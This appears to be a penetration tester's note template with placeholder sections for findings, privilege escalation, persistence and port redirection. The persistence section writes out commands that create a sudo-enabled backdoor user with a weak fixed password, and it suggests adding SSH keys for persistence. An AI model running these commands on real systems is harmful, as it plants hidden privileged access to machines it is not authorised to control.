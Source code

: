 
### Findings

Write down your findings below.

```ad-important
title: Findings


```

## Privilege Escalation

*Note*: Now that you found viable escalation vector, perform privilege escalation, write down how it was performed and screenshots below.

```ad-summary
title:Local Privilege Escalation Summary

###### Summary 
___
I performed privilege escalation via XXX.


```

## Persistence 

> You can create a backdoor user, or add your own ssh key to authorized_keys or more intricate attacks.
> Keep track of this backdoor on your tracker note.

~~~ad-example
title:Creating a Backdoor User in Linux

- Create your backdoor user.

```bash
adduser backdoor
```
- Paste the following password in the prompt.
```txt
Password123!
```
- Add "backdoor" user to `sudo` group
```bash
usermod -aG sudo backdoor
```
~~~

## Port Redirection

> Establish a socks proxy session after performing credential access *if necessary* to gain access to the next victim on the network.
